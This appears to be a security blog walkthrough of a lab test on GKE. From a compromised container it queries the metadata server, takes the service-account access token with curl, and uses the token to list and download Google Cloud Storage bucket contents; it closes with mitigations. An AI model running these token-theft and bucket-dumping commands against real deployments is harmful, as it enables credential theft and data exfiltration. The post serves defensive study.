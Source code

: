 # Your GKE deployment and metadata - buckets

How hard is it to dump data from Google Cloud Project storage, if it's running a vulnerable container image? Very easy! Read on for a walk through.

If you've read Gitlab's excellent report on "Plundering Google Cloud"[[1]](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
you may be wondering, does it apply to Kubernetes and GKE? After all, the article seems to focus on compute engine VMs. GKE is a totally different beast right? Also it mentions early on about being able to read bucket contents from compute engine VM. But we are not just giving the attackers the VM/credentials, not deploying privileged images and keep our GKE deployment up to date.

### Lab setup
To simulate a compromised container I deployed [openSSH-server](https://github.com/linuxserver/docker-openssh-server) on a GKE cluster
and exposed it to the internet so I can access it. I configured a user "toto", with sudo privileges (although I won't be using them yet).
There are no intentional misconfigurations or out of date software[2]*

![lab image](https://eqqn.github.io/images/doc2.png)


### Discovery and metadata
Taking a page from the pentest workflows, we query the metadata server.

`curl "http://metadata.google.internal/computeMetadata/v1/?recursive=true&alt=text" -H "Metadata-Flavor: Google"`

This gives a lot of information and is a lot to proccess. 

To narrow it down, we want to look at the access scopes available to our instance.

`curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes -H 'Metadata-Flavor:Google' `

![Access scopes](https://eqqn.github.io/images/gke_access_scopes.png)

IF we have devstorage.read permissions it means we can read storage on our project.

Now since our storage is not public ( otherwise we wouldn't be doing this ), we need to authenticate ourselves against the google storage APIs.
Thats where metadata service steps in, providing us a Token that allows us to call google APIs on behalf of the instance. 

`curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token" -H "Metadata-Flavor: Google"`

To discover the names of the storage objects, we can query the google storage API with the token we procured. We will need the project name we found in metadata dump.

`curl -H "Authorization: Bearer <<TOKEN>>" "https://storage.googleapis.com/storage/v1/b?project=<<PROJECT_NAME>>"`

![Bucket Data](https://eqqn.github.io/images/bucket_data.png)

One of the objects is the bucket I created `****test`

If we query the object, it will reveal the files inside it :

`curl -H "Authorization: Bearer <<TOKEN>" "https://storage.googleapis.com/storage/v1/b/<<OBJECT_NAME>>/o" `

We see the file "bucketfile.txt", so lets grab it using curl:

`curl -X GET -H "Authorization: Bearer <<TOKEN>>" -o "bucketfile.txt" "https://www.googleapis.com/storage/v1/b/<<OBJECT_NAME>>/o/bucketfile.txt?alt=media"`

![Bucket Contents](https://eqqn.github.io/images/bucket_data_contents.png)  ( the file contents is "my secret bucket data" string) 

### Summary

Provided there is a vulnerable container in a deployment, you can dump all the bucket data in the project.

No container escapes, privilege escalation involved. It does need at least a backdoor, RCE, or SSRF class vulnerability to get the auth token.

Also there is no restrictions on callers origin when calling storage endpoint - with the instance token you can call storage from anywhere.
So you can make a nice script to dump all buckets in the project recursively.

You don't need access to *gcloud*, *gsutil* or other CLI utilities on the container - once you *curl* the token, you can continue the work on your machine.
This is useful when you have read-only filesystems, no write access , etc.

### Mitigations (?)
Partial mitigation exists, like fine-grained access rights on bucket ( are you using them?). You can also restrict the access rights for the 
node pool, by adding a service account to it with a different set of permissions. [[3]](https://cloud.google.com/kubernetes-engine/docs/how-to/protecting-cluster-metadata)

Workload identity is another candidate [[4]](https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity) and requires extensive setup.

Google is also beta-testing "Auto-pilot clusters" where they take over the heavy lifting in terms of hardening. 

So the last few mitigations might be a necessary evil, if you don't want to leak all your secrets thanks to a single access token. I have yet to test how well they work.

References and comments: 
[1] https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/

[2] It's synthetic, but you don't want to deploy actually vulnerable applications on your cloud :) Yes, it's easier to just 
SSH via CLoudShell to the container, but you lose benefit of testing low privilege user and ingress/egress network connections

[3] https://cloud.google.com/kubernetes-engine/docs/how-to/protecting-cluster-metadata

[4] https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity


